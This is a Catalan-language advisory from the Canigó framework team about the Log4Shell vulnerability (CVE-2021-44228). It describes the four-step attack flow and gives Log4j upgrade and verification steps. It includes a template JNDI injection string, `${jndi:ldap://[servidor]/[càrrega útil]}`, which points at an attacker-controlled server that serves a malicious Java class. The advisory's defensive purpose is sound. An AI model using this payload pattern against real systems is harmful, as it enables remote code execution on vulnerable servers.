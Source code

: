 +++
date        = "2021-12-16"
title       = "Canigó. Vulnerabilitat CVE-2021-44228 (Log4Shell)"
description = "Com resoldre la vulnerabilitat detectada CVE-2021-44228 (Log4Shell)"
#section     = "howtos"
#categories  = ["canigo"]
#key         = "GENER2022"
+++

La vulnerabilitat [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) permet executar codi en un
servidor remot, injectant una petició JNDI `${jndi:(ldap|rmi|etc)}` dins de qualsevol variable que es registri al log del servidor.
Aquesta vulnerabilitat **només afecta les versions `2.x` de Log4J i es troba corregida en la versió `2.16.0`**.

Per a explotar la vulnerabilitat, es poden seguir els següents passos:

1. En el servidor que allotja l'aplicació vulnerable, es registra la informació que conté la càrrega útil maliciosa.
Per exemple: `${jndi:ldap://[servidor]/[càrrega útil]}`, on el servidor està controlat per l'atacant i la càrrega útil conté les comandes a executar.

2. La vulnerabilitat s'activa i el servidor vulnerable sol·licita al servidor de l'atacant a través de JNDI el codi maliciós.

3. La resposta del servidor de l'atacant conté la ruta a una classe Java maliciosa. Per exemple: `http://[servidor]/exploit.class`,
que s'injecta en el context de l'aplicació vulnerable.

4. La càrrega útil injectada permet a l'atacant executar codi arbitrari.

<br/>
Informació de referència:

* <https://logging.apache.org/log4j/2.x/security.html#CVE-2021-45046/> \
* <https://nvd.nist.gov/vuln/detail/CVE-2021-44228/> \
* <https://securelist.com/cve-2021-44228-vulnerability-in-apache-log4j-library/105210/> \

## Com solucionar la vulnerabilitat a les aplicacions

---

**Actualització a 16/12/2021**:

Apache ha publicat que les mesures mitigadores han quedat desacreditades donat s'ha descobert
que aquestes només limiten l'exposició mentre deixen oberts alguns vectors d'atac.
La raó per la qual aquestes mesures són insuficients
és que, a més del vector d'atac Thread Context, encara hi ha rutes de codi a Log4j on es poden produir cerques de missatges.
Es conclou, per tant, que la mesura més segura és actualitzar Log4j a una versió segura quedant desacreditades
les següents mesures prèvies comunicades: setting de la propietat log4j2.formatMsgNoLookups o la variable d'entorn
LOG4J_FORMAT_MSG_NO_LOOKUPS a true per a versions >= 2.10, o modificant la configuració de registre per desactivar
les cerques de missatges amb %m{nolookups}, %msg{nolookups} o %message{nolookups per a versions >= 2.7 i <= 2.14.1.

Per a més informació: https://logging.apache.org/log4j/2.x/security.html#CVE-2021-45046

---

Cal substituir la versió de la dependència de la libreria `log4j` en temps de compilació.

* Opció 1) Modificar el fitxer `pom.xml` - **opció recomanada** -, compilar i desplegar l'aplicació:

    > * Sí el JDK és major o igual a `1.8`:
```xml
<properties>
<log4j2.version>2.16.0</log4j2.version>
</properties>
```

    > * Sí el JDK és `1.7`:
```xml
<properties>
<log4j2.version>2.12.2</log4j2.version>
</properties>
```

* Opció 2) Injectar la variable durant la construcció de l'aplicació, compilar i desplegar l'aplicació:
```sh
mvn -Dlog4j2.version=2.16.0 clean package && java -jar ./target/CanigoLog4jShellTest.war
```

## Noves versions de Canigó 3.4 i 3.6

---

**Actualització a 16/12/2021**:

S'està treballant per a generar noves versions de Canigó 3.4 i 3.6 per a passar a fer ús de la versió 2.16.0 de la llibreria.

Data prevista de publicació: 17/12/2021.

---

S'han alliberat noves versions del Framework Canigó:

* Versions de Canigó 3.4.7 i 3.6.1 per a resoldre aquesta vulnerabilitat als mòduls de Canigó.
Podeu consultar: [Publicació nova versió 3.4.7 i 3.6.1](/noticies/2021-12-13-CAN-actualitzacio-canigo-3_4_7_3_6_1).

* Versió 1.6.8 de l'archetype de Canigó per a generar projectes amb Canigó 3.4.7.
Podeu consultar: [Actualització archetype 1.6.8](/noticies/2021-12-13-CAN-Actualitzacio_archetype_1_6_8/).

* Versió 1.7.1 de l'archetype de Canigó i la versió 1.8.1 del plugin del eclipse per a generar projectes amb Canigó 3.6.1.
Podeu consultar: [Actualització archetype 1.7.1 i plugin Eclipse 1.8.1](/noticies/2021-12-13-CAN-Actualitzacio_archetype_1_7_1_plugin_eclipse_1_8_1/).

Des de CS Canigó es recomana actualitzar a aquestes noves versions. Per a fer-ho, serà necessari revisar les dependències de l'aplicació
per a utilitzar els mòduls de les versions 3.4.7 i 3.6.1. Podeu consultar les matrius de compatibilitat de les versions:

- [Matrius de Compatibilitats 3.4](/canigo-download-related/matrius-compatibilitats/canigo-34/)

- [Matrius de Compatibilitats 3.6](/canigo-download-related/matrius-compatibilitats/canigo-36/)

Un cop es comprovi que s'utilitzen les últimes versions dels mòduls, caldrà modificar el fitxer `pom.xml` per a assegurar l'ús
de la versió 2.16.0 de log4j:

```xml
<properties>
<log4j2.version>2.16.0</log4j2.version>
</properties>
```

Un cop realitzades les adaptacions descrites, comprovar que només s'utilitza la versió 2.16.0 del log4j a l'aplicació mitjançant:

```
mvn dependency:tree
```

<br/><br/>
Per qualsevol dubte relatiu a aquesta nova versió del Framework Canigó us podeu posar en contacte amb el CS Canigó
al [servei CAN](https://cstd.ctti.gencat.cat/jiracstd/projects/CAN) del JIRA CSTD o enviant-nos un correu electrònic
a la [bústia del CS Canigó](mailto:oficina-tecnica.canigo.ctti@gencat.cat).
